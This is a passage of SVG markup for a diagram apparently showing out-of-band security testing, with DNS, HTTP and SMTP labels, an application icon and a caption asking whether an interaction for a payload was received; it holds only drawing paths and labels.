fill="#ea5c2c" />
  <path d="M334.18,541.53a4.4,4.4,0,0,1-8.79,0V532a.81.81,0,1,1,1.61,0v9.64a3,3,0,0,0,1.14,2.11,2.19,2.19,0,0,0,1.63.53,2.25,2.25,0,0,0,1.66-.53,2.92,2.92,0,0,0,1.14-2.11V532a.87.87,0,0,1,.8-.94.9.9,0,0,1,.81.94Z" fill="#ea5c2c" />
  <path d="M340.55,531.08c2.58,0,4.17,1.66,4.17,4.35a4.65,4.65,0,0,1-1,3.37,3.45,3.45,0,0,1-2.05,1l2.58,4.65a.82.82,0,0,1-.51,1.3c-.35,0-.63,0-.88-.44l-3-5.44h-2.51V545c0,.57-.22.81-.79.81s-.82-.24-.82-.81V531.9c0-.57.24-.82.82-.82Zm-3.24,1.61v5.6H341a1.43,1.43,0,0,0,1.45-.66,3.14,3.14,0,0,0,.62-2.2c0-2-1.17-2.74-2.12-2.74Z" fill="#ea5c2c" />
  <path d="M351.11,531.08c2.58,0,4.16,1.66,4.16,4.35,0,2.09-.55,3.28-1.91,4a4,4,0,0,1-2.19.44h-3.3V545c0,.57-.22.81-.8.81s-.81-.24-.81-.81V531.9c0-.57.24-.82.81-.82Zm-3.24,1.61v5.6h3.72a1.44,1.44,0,0,0,1.46-.66,3.18,3.18,0,0,0,.61-2.2c0-2-1.16-2.74-2.11-2.74Z" fill="#ea5c2c" />
  <path d="M362.24,544.18a.7.7,0,0,1,.77.79.72.72,0,0,1-.77.81h-2.65a4,4,0,0,1-3.81-4.34v-6a4,4,0,0,1,3.81-4.35h2.65a.72.72,0,0,1,.77.82.69.69,0,0,1-.77.79H360a2.27,2.27,0,0,0-1.48.38,3,3,0,0,0-1.12,2.29v6.17a2.89,2.89,0,0,0,1.12,2.27,2.3,2.3,0,0,0,1.48.38Z" fill="#404042" />
  <path d="M372.59,541.44a4.47,4.47,0,0,1-8.94,0v-6.08a4.47,4.47,0,0,1,8.94,0Zm-7.33.09a2.68,2.68,0,0,0,.57,1.61,2.45,2.45,0,0,0,2.29,1.1,2.24,2.24,0,0,0,1.72-.53,2.94,2.94,0,0,0,1.15-2.18v-6.26a2.84,2.84,0,0,0-.58-1.54,2.45,2.45,0,0,0-2.29-1.1,2.22,2.22,0,0,0-1.72.52,2.94,2.94,0,0,0-1.14,2.12Z" fill="#404042" />
  <path d="M375.72,544.18H381a.7.7,0,0,1,.77.79.71.71,0,0,1-.77.81h-6.06c-.57,0-.81-.24-.81-.81V531.9c0-.57.24-.82.81-.82s.79.25.79.82Z" fill="#404042" />
  <path d="M384,544.18h5.27a.7.7,0,0,1,.77.79.72.72,0,0,1-.77.81h-6.06c-.58,0-.82-.24-.82-.81V531.9c0-.57.24-.82.82-.82s.79.25.79.82Z" fill="#404042" />
  <path d="M392.16,542.37l-.92,2.91c-.09.26-.29.5-.51.5-.75,0-1.08-.3-1.08-.66a.9.9,0,0,1,.05-.37l4.14-12.9c.18-.55.35-.77.88-.77s.71.22.88.77l4.15,12.9a1.11,1.11,0,0,1,0,.37c0,.36-.33.66-1.08.66-.22,0-.42-.24-.51-.5l-.92-2.91Zm.58-1.61h4l-2-6.06Z" fill="#404042" />
  <path d="M401.55,545.78c-.57,0-.81-.24-.81-.81V531.9c0-.57.24-.82.81-.82h4.32a3.31,3.31,0,0,1,3.05,3.62,3.92,3.92,0,0,1-1.28,2.93,4.13,4.13,0,0,1,1.76,3.81,4,4,0,0,1-3.81,4.34Zm.8-8.94h3.39c.88,0,1.57-.78,1.57-2.14s-.6-2-1.57-2h-3.39Zm0,7.34h3.39c.95,0,2.12-.78,2.12-2.74a2.85,2.85,0,0,0-.64-2.11,1.74,1.74,0,0,0-1.48-.89h-3.39Z" fill="#404042" />
  <path d="M419.45,541.44a4.48,4.48,0,0,1-8.95,0v-6.08a4.48,4.48,0,0,1,8.95,0Zm-7.34.09a2.75,2.75,0,0,0,.57,1.61,2.45,2.45,0,0,0,2.3,1.1,2.21,2.21,0,0,0,1.71-.53,2.9,2.9,0,0,0,1.15-2.18v-6.26a2.91,2.91,0,0,0-.57-1.54,2.45,2.45,0,0,0-2.29-1.1,2.21,2.21,0,0,0-1.72.52,3,3,0,0,0-1.15,2.12Z" fill="#404042" />
  <path d="M425.82,531.08c2.58,0,4.16,1.66,4.16,4.35a4.65,4.65,0,0,1-1,3.37,3.48,3.48,0,0,1-2.05,1l2.58,4.65a.85.85,0,0,1,.15.58.83.83,0,0,1-.66.72c-.35,0-.64,0-.88-.44l-3-5.44h-2.51V545c0,.57-.22.81-.8.81s-.81-.24-.81-.81V531.9c0-.57.24-.82.81-.82Zm-3.24,1.61v5.6h3.72a1.44,1.44,0,0,0,1.46-.66,3.18,3.18,0,0,0,.61-2.2c0-2-1.16-2.74-2.11-2.74Z" fill="#404042" />
  <path d="M433,542.37l-.92,2.91c-.09.26-.29.5-.51.5-.75,0-1.08-.3-1.08-.66a1.11,1.11,0,0,1,0-.37l4.15-12.9c.17-.55.35-.77.88-.77s.7.22.88.77l4.14,12.9a.9.9,0,0,1,.05.37c0,.36-.33.66-1.08.66-.22,0-.42-.24-.51-.5l-.92-2.91Zm.58-1.61h4l-2-6.06Z" fill="#404042" />
  <path d="M445.45,532.69V545c0,.57-.24.81-.81.81s-.79-.24-.79-.81V532.69h-2.76a.7.7,0,0,1-.77-.79.72.72,0,0,1,.77-.82h7.12a.72.72,0,0,1,.77.82.7.7,0,0,1-.77.79Z" fill="#404042" />
  <path d="M458.22,541.44a4.48,4.48,0,0,1-9,0v-6.08a4.48,4.48,0,0,1,9,0Zm-7.34.09a2.68,2.68,0,0,0,.57,1.61,2.45,2.45,0,0,0,2.29,1.1,2.23,2.23,0,0,0,1.72-.53,2.9,2.9,0,0,0,1.15-2.18v-6.26a2.84,2.84,0,0,0-.58-1.54,2.45,2.45,0,0,0-2.29-1.1,2.22,2.22,0,0,0-1.72.52,2.94,2.94,0,0,0-1.14,2.12Z" fill="#404042" />
  <path d="M464.58,531.08c2.58,0,4.17,1.66,4.17,4.35a4.69,4.69,0,0,1-1,3.37,3.51,3.51,0,0,1-2.05,1l2.58,4.65a.91.91,0,0,1,.15.58.84.84,0,0,1-.66.72c-.35,0-.64,0-.88-.44l-3-5.44h-2.52V545c0,.57-.22.81-.79.81s-.81-.24-.81-.81V531.9c0-.57.24-.82.81-.82Zm-3.24,1.61v5.6h3.73a1.42,1.42,0,0,0,1.45-.66,3.14,3.14,0,0,0,.62-2.2c0-2-1.17-2.74-2.11-2.74Z" fill="#404042" />
  <path d="M348.47,489.65a4.59,4.59,0,0,1-.25,1.51,2.87,2.87,0,0,1-.69,1.08,2.82,2.82,0,0,1-1.1.65,4.47,4.47,0,0,1-1.47.2h-1.8l.06-6.82h2a4.06,4.06,0,0,1,1.35.23,2.67,2.67,0,0,1,1.68,1.7A4.29,4.29,0,0,1,348.47,489.65Zm-1.47,0a3.56,3.56,0,0,0-.1-1,2,2,0,0,0-.33-.69,1.23,1.23,0,0,0-.53-.4,1.81,1.81,0,0,0-.72-.14h-.67l0,4.45h.53a1.67,1.67,0,0,0,1.38-.55A2.57,2.57,0,0,0,347,489.67Z" fill="#4c5054" />
  <path d="M355.62,493.19l-1.84,0L351.14,488h0c0,.24,0,.48,0,.72s0,.41,0,.64v.6l0,3.21h-1.3l.06-6.83,1.83,0,2.63,5.13h0l0-.7c0-.1,0-.2,0-.3s0-.21,0-.32v-.56l0-3.23h1.3Z" fill="#4c5054" />
  <path d="M361.09,491.34a2,2,0,0,1-.16.82,1.76,1.76,0,0,1-.46.62,2.09,2.09,0,0,1-.74.39,3.42,3.42,0,0,1-1,.14,4.34,4.34,0,0,1-1-.12,3.45,3.45,0,0,1-.85-.31v-1.34l.45.21c.16.06.31.13.47.18a3.62,3.62,0,0,0,.47.13,2.42,2.42,0,0,0,.47.05,1.28,1.28,0,0,0,.41-.05.59.59,0,0,0,.27-.15.69.69,0,0,0,.16-.22.93.93,0,0,0,.05-.29.71.71,0,0,0-.08-.34,1,1,0,0,0-.23-.28,1.66,1.66,0,0,0-.35-.25c-.14-.09-.29-.17-.46-.26l-.48-.28a2.66,2.66,0,0,1-.5-.4,2.39,2.39,0,0,1-.39-.57,1.94,1.94,0,0,1-.15-.8,2.1,2.1,0,0,1,.16-.82,1.68,1.68,0,0,1,.44-.61,1.86,1.86,0,0,1,.68-.37,2.77,2.77,0,0,1,.89-.13l.49,0a3.78,3.78,0,0,1,.46.1,4.26,4.26,0,0,1,.47.15l.48.21-.48,1.12-.39-.17a1.74,1.74,0,0,0-.36-.13,1.32,1.32,0,0,0-.33-.08,1.87,1.87,0,0,0-.34,0,.76.76,0,0,0-.56.19.69.69,0,0,0-.19.51.62.62,0,0,0,.05.31.72.72,0,0,0,.19.25,1.57,1.57,0,0,0,.33.24l.49.28c.23.13.44.25.64.39a2.63,2.63,0,0,1,.5.43,1.64,1.64,0,0,1,.32.54A1.69,1.69,0,0,1,361.09,491.34Z" fill="#4c5054" />
  <path d="M349.21,519.42a2.18,2.18,0,0,1-.17.82,1.65,1.65,0,0,1-.46.62,2.09,2.09,0,0,1-.74.39,3.11,3.11,0,0,1-1,.13,4.35,4.35,0,0,1-1-.11A3.45,3.45,0,0,1,345,521l0-1.35a4.71,4.71,0,0,0,.45.22l.46.18a4.12,4.12,0,0,0,.47.13,2.5,2.5,0,0,0,.47.05,1.64,1.64,0,0,0,.41-.05.7.7,0,0,0,.27-.15.57.57,0,0,0,.16-.22.94.94,0,0,0,.05-.3.66.66,0,0,0-.08-.34,1.09,1.09,0,0,0-.22-.27,2.8,2.8,0,0,0-.36-.26l-.46-.26-.48-.27a3,3,0,0,1-.5-.4,2.1,2.1,0,0,1-.38-.57,1.81,1.81,0,0,1-.16-.8,2.3,2.3,0,0,1,.16-.82,1.8,1.8,0,0,1,.44-.61,1.86,1.86,0,0,1,.68-.37,2.84,2.84,0,0,1,.9-.13,3.88,3.88,0,0,1,.48,0,2.63,2.63,0,0,1,.47.1l.46.15.48.21-.48,1.12-.39-.18-.35-.12a1.51,1.51,0,0,0-.34-.08l-.33,0a.71.71,0,0,0-.56.19.68.68,0,0,0-.2.51,1,1,0,0,0,.05.31.72.72,0,0,0,.19.25,1.57,1.57,0,0,0,.33.24l.49.28c.23.12.44.25.64.38a2.67,2.67,0,0,1,.5.44,1.82,1.82,0,0,1,.33.53A2.16,2.16,0,0,1,349.21,519.42Z" fill="#4c5054" />
  <path d="M353.2,521.35,351.75,516h0c0,.28,0,.56,0,.83,0,.11,0,.23,0,.35s0,.25,0,.36,0,.24,0,.34v.3l0,3.17h-1.29l.06-6.82h2l1.43,5.24h0l1.61-5.21,2,0-.06,6.82h-1.35l0-3.23v-.28c0-.1,0-.21,0-.32s0-.23,0-.35,0-.24,0-.35,0-.53,0-.81h0l-1.67,5.33Z" fill="#4c5054" />
  <path d="M361.68,521.42h-1.45l0-5.62-1.71,0v-1.2l4.86,0v1.2h-1.71Z" fill="#4c5054" />
  <path d="M368.9,516.78a2.72,2.72,0,0,1-.14.86,1.82,1.82,0,0,1-.45.72,2.13,2.13,0,0,1-.82.49,3.82,3.82,0,0,1-1.26.18h-.33l0,2.42h-1.45l.06-6.82h1.9a4.1,4.1,0,0,1,1.13.16,2.07,2.07,0,0,1,.79.43,1.65,1.65,0,0,1,.45.67A2.28,2.28,0,0,1,368.9,516.78Zm-3,1.06h.29a1.44,1.44,0,0,0,.92-.23,1.15,1.15,0,0,0,.05-1.54,1.33,1.33,0,0,0-.87-.25h-.37Z" fill="#4c5054" />
  <path d="M401.15,468.05a21.91,21.91,0,1,1,0,43.81" fill="#f63" stroke="#f63" stroke-miterlimit="10" stroke-width="2" />
  <polygon points="411.56 487.46 407.88 487.46 411.56 483.5 411.56 476.6 410.01 476.6 410.01 482.96 403.84 489.02 410.01 489.02 410.01 494 413.47 493.93 410.01 497.57 410.01 504.54 411.56 504.54 411.56 498.11 417.16 492.12 411.56 492.12 411.56 487.46" fill="#fff" />
  <line x1="372.19" y1="489.95" x2="400.84" y2="489.95" fill="none" stroke="#4c5054" stroke-miterlimit="10" stroke-width="2" />
  <path d="M400.84,511.86a21.91,21.91,0,1,1,0-43.81Z" fill="none" stroke="#4c5054" stroke-miterlimit="10" stroke-width="2" />
  <path d="M401.53,511.86c-6.6,0-11.95-9.81-11.95-21.9s5.35-21.91,11.95-21.91" fill="none" stroke="#4c5054" stroke-miterlimit="10" stroke-width="2" />
  <path d="M400.84,480.31c-5.85,0-19.09-.35-23.07-13.89" fill="none" stroke="#4c5054" stroke-miterlimit="10" stroke-width="2" />
  <path d="M400.84,499.08c-5.85,0-19.09.35-23.07,13.89" fill="none" stroke="#4c5054" stroke-miterlimit="10" stroke-width="2" />
  <path d="M353.52,464.92h-1.44V462h-2.32v2.95h-1.45v-6.83h1.45v2.68h2.32v-2.68h1.44Z" fill="#4c5054" />
  <path d="M357.73,464.92h-1.44V459.3h-1.71v-1.21h4.86v1.21h-1.71Z" fill="#4c5054" />
  <path d="M363.07,464.92h-1.44V459.3h-1.71v-1.21h4.86v1.21h-1.71Z" fill="#4c5054" />
  <path d="M370.26,460.22a2.71,2.71,0,0,1-.13.86,1.79,1.79,0,0,1-.45.73,2.27,2.27,0,0,1-.82.49,3.46,3.46,0,0,1-1.25.19h-.33v2.43h-1.45v-6.83h1.9a3.77,3.77,0,0,1,1.13.15,2.12,2.12,0,0,1,.79.42,1.64,1.64,0,0,1,.46.67A2.48,2.48,0,0,1,370.26,460.22Zm-3,1.09h.28a1.52,1.52,0,0,0,.93-.25,1,1,0,0,0,.31-.79,1,1,0,0,0-.28-.75,1.33,1.33,0,0,0-.87-.24h-.37Z" fill="#4c5054" />
  <rect x="363.05" y="32.52" width="38.84" height="82.55" fill="#159c80" stroke="#159c80" stroke-miterlimit="10" stroke-width="0.5" />
  <line x1="363.06" y1="59.53" x2="401.9" y2="59.55" fill="none" stroke="#fff" stroke-miterlimit="10" stroke-width="0.5" />
  <line x1="363.06" y1="67.92" x2="401.9" y2="67.94" fill="none" stroke="#fff" stroke-miterlimit="10" stroke-width="0.5" />
  <line x1="363.06" y1="50.89" x2="401.91" y2="50.91" fill="none" stroke="#fff" stroke-miterlimit="10" stroke-width="0.5" />
  <line x1="363.04" y1="93.94" x2="401.88" y2="93.97" fill="none" stroke="#fff" stroke-miterlimit="10" stroke-width="0.5" />
  <line x1="363.04" y1="102.19" x2="401.88" y2="102.21" fill="none" stroke="#fff" stroke-miterlimit="10" stroke-width="0.5" />
  <line x1="363.05" y1="76.64" x2="401.89" y2="76.66" fill="none" stroke="#fff" stroke-miterlimit="10" stroke-width="0.5" />
  <line x1="363.05" y1="85.45" x2="401.89" y2="85.47" fill="none" stroke="#fff" stroke-miterlimit="10" stroke-width="0.5" />
  <circle cx="367.19" cy="98.38" r="1.18" fill="#fff" />
  <circle cx="371.54" cy="98.38" r="1.18" fill="#fff" />
  <circle cx="375.9" cy="98.38" r="1.18" fill="#fff" />
  <circle cx="380.25" cy="98.39" r="1.18" fill="#fff" />
  <circle cx="384.6" cy="98.39" r="1.18" fill="#fff" />
  <circle cx="388.95" cy="98.39" r="1.18" fill="#fff" />
  <circle cx="393.3" cy="98.39" r="1.18" fill="#fff" />
  <circle cx="397.65" cy="98.4" r="1.18" fill="#fff" />
  <circle cx="367.2" cy="89.68" r="1.18" fill="#fff" />
  <circle cx="371.55" cy="89.68" r="1.18" fill="#fff" />
  <circle cx="375.9" cy="89.68" r="1.18" fill="#fff" />
  <circle cx="380.25" cy="89.68" r="1.18" fill="#fff" />
  <circle cx="384.6" cy="89.69" r="1.18" fill="#fff" />
  <circle cx="388.96" cy="89.69" r="1.18" fill="#fff" />
  <circle cx="393.31" cy="89.69" r="1.18" fill="#fff" />
  <circle cx="397.66" cy="89.69" r="1.18" fill="#fff" />
  <circle cx="367.2" cy="80.97" r="1.18" fill="#fff" />
  <circle cx="371.55" cy="80.98" r="1.18" fill="#fff" />
  <circle cx="375.91" cy="80.98" r="1.18" fill="#fff" />
  <circle cx="380.26" cy="80.98" r="1.18" fill="#fff" />
  <circle cx="384.61" cy="80.98" r="1.18" fill="#fff" />
  <circle cx="388.96" cy="80.99" r="1.18" fill="#fff" />
  <circle cx="393.31" cy="80.99" r="1.18" fill="#fff" />
  <circle cx="397.66" cy="80.99" r="1.18" fill="#fff" />
  <circle cx="367.21" cy="72.27" r="1.18" fill="#fff" />
  <circle cx="371.56" cy="72.27" r="1.18" fill="#fff" />
  <circle cx="375.91" cy="72.27" r="1.18" fill="#fff" />
  <circle cx="380.26" cy="72.28" r="1.18" fill="#fff" />
  <circle cx="384.61" cy="72.28" r="1.18" fill="#fff" />
  <circle cx="388.97" cy="72.28" r="1.18" fill="#fff" />
  <circle cx="393.32" cy="72.28" r="1.18" fill="#fff" />
  <circle cx="397.67" cy="72.29" r="1.18" fill="#fff" />
  <circle cx="367.21" cy="63.57" r="1.18" fill="#fff" />
  <circle cx="371.56" cy="63.57" r="1.18" fill="#fff" />
  <circle cx="375.92" cy="63.57" r="1.18" fill="#fff" />
  <circle cx="380.27" cy="63.57" r="1.18" fill="#fff" />
  <circle cx="384.62" cy="63.58" r="1.18" fill="#fff" />
  <circle cx="388.97" cy="63.58" r="1.18" fill="#fff" />
  <circle cx="393.32" cy="63.58" r="1.18" fill="#fff" />
  <circle cx="397.67" cy="63.58" r="1.18" fill="#fff" />
  <circle cx="367.22" cy="54.86" r="1.18" fill="#fff" />
  <circle cx="371.57" cy="54.87" r="1.18" fill="#fff" />
  <circle cx="375.92" cy="54.87" r="1.18" fill="#fff" />
  <circle cx="380.27" cy="54.87" r="1.18" fill="#fff" />
  <circle cx="384.62" cy="54.87" r="1.18" fill="#fff" />
  <circle cx="388.97" cy="54.88" r="1.18" fill="#fff" />
  <circle cx="393.33" cy="54.88" r="1.18" fill="#fff" />
  <circle cx="397.68" cy="54.88" r="1.18" fill="#fff" />
  <circle cx="367.22" cy="46.16" r="1.18" fill="#fff" />
  <circle cx="371.57" cy="46.16" r="1.18" fill="#fff" />
  <circle cx="375.92" cy="46.17" r="1.18" fill="#fff" />
  <circle cx="380.28" cy="46.17" r="1.18" fill="#fff" />
  <circle cx="384.63" cy="46.17" r="1.18" fill="#fff" />
  <circle cx="388.98" cy="46.17" r="1.18" fill="#fff" />
  <circle cx="393.33" cy="46.17" r="1.18" fill="#fff" />
  <circle cx="397.68" cy="46.18" r="1.18" fill="#fff" />
  <line x1="363.07" y1="41.35" x2="401.91" y2="41.37" fill="none" stroke="#fff" stroke-miterlimit="10" stroke-width="0.5" />
  <rect x="405.75" y="32.54" width="38.84" height="82.55" fill="#159c80" stroke="#159c80" stroke-miterlimit="10" stroke-width="0.5" />
  <line x1="405.76" y1="59.55" x2="444.6" y2="59.58" fill="none" stroke="#fff" stroke-miterlimit="10" stroke-width="0.5" />
  <line x1="405.76" y1="67.94" x2="444.6" y2="67.96" fill="none" stroke="#fff" stroke-miterlimit="10" stroke-width="0.5" />
  <line x1="405.77" y1="50.91" x2="444.61" y2="50.93" fill="none" stroke="#fff" stroke-miterlimit="10" stroke-width="0.5" />
  <line x1="405.74" y1="93.97" x2="444.58" y2="93.99" fill="none" stroke="#fff" stroke-miterlimit="10" stroke-width="0.5" />
  <line x1="405.74" y1="102.21" x2="444.58" y2="102.23" fill="none" stroke="#fff" stroke-miterlimit="10" stroke-width="0.5" />
  <line x1="405.75" y1="76.66" x2="444.59" y2="76.69" fill="none" stroke="#fff" stroke-miterlimit="10" stroke-width="0.5" />
  <line x1="405.75" y1="85.47" x2="444.59" y2="85.49" fill="none" stroke="#fff" stroke-miterlimit="10" stroke-width="0.5" />
  <circle cx="409.89" cy="98.4" r="1.18" fill="#fff" />
  <circle cx="414.25" cy="98.41" r="1.18" fill="#fff" />
  <circle cx="418.6" cy="98.41" r="1.18" fill="#fff" />
  <circle cx="422.95" cy="98.41" r="1.18" fill="#fff" />
  <circle cx="427.3" cy="98.41" r="1.18" fill="#fff" />
  <circle cx="431.65" cy="98.42" r="1.18" fill="#fff" />
  <circle cx="436" cy="98.42" r="1.18" fill="#fff" />
  <circle cx="440.36" cy="98.42" r="1.18" fill="#fff" />
  <circle cx="409.9" cy="89.7" r="1.18" fill="#fff" />
  <circle cx="414.25" cy="89.7" r="1.18" fill="#fff" />
  <circle cx="418.6" cy="89.71" r="1.18" fill="#fff" />
  <circle cx="422.95" cy="89.71" r="1.18" fill="#fff" />
  <circle cx="427.31" cy="89.71" r="1.18" fill="#fff" />
  <circle cx="431.66" cy="89.71" r="1.18" fill="#fff" />
  <circle cx="436.01" cy="89.71" r="1.18" fill="#fff" />
  <circle cx="440.36" cy="89.72" r="1.18" fill="#fff" />
  <circle cx="409.9" cy="81" r="1.18" fill="#fff" />
  <circle cx="414.26" cy="81" r="1.18" fill="#fff" />
  <circle cx="418.61" cy="81" r="1.18" fill="#fff" />
  <circle cx="422.96" cy="81" r="1.18" fill="#fff" />
  <circle cx="427.31" cy="81.01" r="1.18" fill="#fff" />
  <circle cx="431.66" cy="81.01" r="1.18" fill="#fff" />
  <circle cx="436.01" cy="81.01" r="1.18" fill="#fff" />
  <circle cx="440.37" cy="81.01" r="1.18" fill="#fff" />
  <circle cx="409.91" cy="72.29" r="1.18" fill="#fff" />
  <circle cx="414.26" cy="72.3" r="1.18" fill="#fff" />
  <circle cx="418.61" cy="72.3" r="1.18" fill="#fff" />
  <circle cx="422.96" cy="72.3" r="1.18" fill="#fff" />
  <circle cx="427.32" cy="72.3" r="1.18" fill="#fff" />
  <circle cx="431.67" cy="72.31" r="1.18" fill="#fff" />
  <circle cx="436.02" cy="72.31" r="1.18" fill="#fff" />
  <circle cx="440.37" cy="72.31" r="1.18" fill="#fff" />
  <circle cx="409.91" cy="63.59" r="1.18" fill="#fff" />
  <circle cx="414.27" cy="63.59" r="1.18" fill="#fff" />
  <circle cx="418.62" cy="63.6" r="1.18" fill="#fff" />
  <circle cx="422.97" cy="63.6" r="1.18" fill="#fff" />
  <circle cx="427.32" cy="63.6" r="1.18" fill="#fff" />
  <circle cx="431.67" cy="63.6" r="1.18" fill="#fff" />
  <circle cx="436.02" cy="63.61" r="1.18" fill="#fff" />
  <circle cx="440.38" cy="63.61" r="1.18" fill="#fff" />
  <circle cx="409.92" cy="54.89" r="1.18" fill="#fff" />
  <circle cx="414.27" cy="54.89" r="1.18" fill="#fff" />
  <circle cx="418.62" cy="54.89" r="1.18" fill="#fff" />
  <circle cx="422.97" cy="54.89" r="1.18" fill="#fff" />
  <circle cx="427.33" cy="54.9" r="1.18" fill="#fff" />
  <circle cx="431.68" cy="54.9" r="1.18" fill="#fff" />
  <circle cx="436.03" cy="54.9" r="1.18" fill="#fff" />
  <circle cx="440.38" cy="54.9" r="1.18" fill="#fff" />
  <circle cx="409.92" cy="46.18" r="1.18" fill="#fff" />
  <circle cx="414.28" cy="46.19" r="1.18" fill="#fff" />
  <circle cx="418.63" cy="46.19" r="1.18" fill="#fff" />
  <circle cx="422.98" cy="46.19" r="1.18" fill="#fff" />
  <circle cx="427.33" cy="46.19" r="1.18" fill="#fff" />
  <circle cx="431.68" cy="46.2" r="1.18" fill="#fff" />
  <circle cx="436.03" cy="46.2" r="1.18" fill="#fff" />
  <circle cx="440.38" cy="46.2" r="1.18" fill="#fff" />
  <line x1="405.77" y1="41.38" x2="444.61" y2="41.4" fill="none" stroke="#fff" stroke-miterlimit="10" stroke-width="0.5" />
  <circle cx="449.93" cy="41.44" r="26.68" fill="#479aad" />
  <path d="M450.09,13.5a27.8,27.8,0,1,0,0,55.59h0a27.8,27.8,0,1,0,0-55.59Zm20,10.54a14.23,14.23,0,0,1-3.82,3.69,20.44,20.44,0,0,1-3.5,1.89,37,37,0,0,0-4.29-8.74,35.91,35.91,0,0,0-4.73-5.76,26.27,26.27,0,0,1,15,7.49C469.24,23.08,469.69,23.55,470.11,24ZM451.49,67.7l-.75,0v-17a34,34,0,0,1,10.76,1.79,36,36,0,0,1-4.14,8.44A33,33,0,0,1,451.49,67.7ZM438.63,52.48a33,33,0,0,1,10.76-1.78v17c-.25,0-.5,0-.74,0A35.6,35.6,0,0,1,438.63,52.48Zm10-37.58.74,0v17a33.67,33.67,0,0,1-10.75-1.79,35.77,35.77,0,0,1,4.13-8.43A32.61,32.61,0,0,1,448.67,14.9Zm12.85,15.21a34,34,0,0,1-10.76,1.79v-17l.75,0A35.62,35.62,0,0,1,461.52,30.11Zm-10.76,3.15a34.69,34.69,0,0,0,11.18-1.83,35.44,35.44,0,0,1,1.4,9.19H450.76Zm-1.36,0v7.36H436.82a35.09,35.09,0,0,1,1.41-9.19A34.59,34.59,0,0,0,449.4,33.26Zm-13.94,7.35H423.65a26.18,26.18,0,0,1,5.52-15.48A18,18,0,0,0,437,30.93,36.39,36.39,0,0,0,435.46,40.61Zm0,1.36A36,36,0,0,0,437,51.65a18,18,0,0,0-7.8,5.8A26.19,26.19,0,0,1,423.65,42Zm1.36,0H449.4v7.36a34.38,34.38,0,0,0-11.17,1.82A34.61,34.61,0,0,1,436.82,42Zm13.93,7.37V42h12.57a35,35,0,0,1-1.4,9.19A34.69,34.69,0,0,0,450.75,49.34ZM464.7,42h11.81A26.28,26.28,0,0,1,471,57.48a17.9,17.9,0,0,0-7.79-5.81A36.39,36.39,0,0,0,464.7,42Zm0-1.37a36.41,36.41,0,0,0-1.49-9.68,18,18,0,0,0,7.8-5.8,26.21,26.21,0,0,1,5.5,15.49Zm-33.31-18a26.31,26.31,0,0,1,15-7.48,36.37,36.37,0,0,0-4.73,5.76,37,37,0,0,0-4.3,8.74,20,20,0,0,1-3.49-1.9A14.07,14.07,0,0,1,430.07,24C430.49,23.53,430.93,23.05,431.39,22.59Zm-1.34,36A16.42,16.42,0,0,1,437.37,53a37.43,37.43,0,0,0,4.29,8.74,36.9,36.9,0,0,0,4.72,5.76,26.28,26.28,0,0,1-15-7.5C430.91,59.52,430.47,59,430.05,58.55ZM468.76,60a26.25,26.25,0,0,1-15,7.48,37.47,37.47,0,0,0,9-14.49,20.35,20.35,0,0,1,3.49,1.89,14.37,14.37,0,0,1,3.82,3.7C469.67,59.06,469.22,59.54,468.76,60Z" fill="#fff" />
  <text transform="translate(368.48 131.88)" font-size="13" fill="#159c80" font-family="Arial-BoldMT, Arial" font-weight="700">Application</text>
  <rect x="37.5" y="609.5" width="280" height="26" fill="#fff" stroke="#0071bc" stroke-miterlimit="10" />
  <rect x="161.5" y="660.5" width="44" height="26" fill="#fff" stroke="#0071bc" stroke-miterlimit="10" />
  <text transform="translate(54.6 626.47)" font-size="12" fill="#0071bc" font-family="ArialMT, Arial">Did you receive an interaction for my payload?</text>
  <text transform="translate(173.46 677.03)" font-size="12" fill="#0071bc" font-family="ArialMT, Arial">
    <tspan letter-spacing="-0.09em">Y</tspan>
    <tspan x="6.9" y="0">es</tspan>
  </text>
  <text transform="translate(440.49 271.46)" font-size="18" fill="#4c5054" font-family="Arial-BoldMT, Arial" font-weight="700">Late<tspan x="37.01" y="0" letter-spacing="-0.06em">r</tspan>
    <tspan x="43.02" y="0">...</tspan>
  </text>
</svg>
